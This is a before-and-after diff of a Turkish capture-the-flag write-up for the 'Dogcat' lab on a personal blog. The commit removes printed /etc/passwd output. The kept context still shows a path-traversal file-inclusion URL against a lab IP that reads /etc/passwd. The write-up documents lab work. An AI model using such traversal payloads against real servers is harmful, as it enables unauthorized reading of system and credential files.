

Before and after one commit to burakcanbalta/burakcanbalta.github.io, a Markdown page: content/articles/Dogcat.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Remove sensitive system file content from Dogcat.md
Removed sensitive information from Dogcat.md.

````diff
--- a/content/articles/Dogcat.md
+++ b/content/articles/Dogcat.md
@@ -131,14 +131,6 @@ http://10.114.144.39/?view=dog/../../../../../../../etc/passwd&ext
 
 
 Ve sistem dosyasının tam içeriğini elde ettim:
-
-```
-Here you go!
-root:x:0:0:root:/root:/bin/bash
-daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
-...
-www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
-```
 
 Artık sunucudaki herhangi bir dosyayı okuyabiliyordum.
 
````
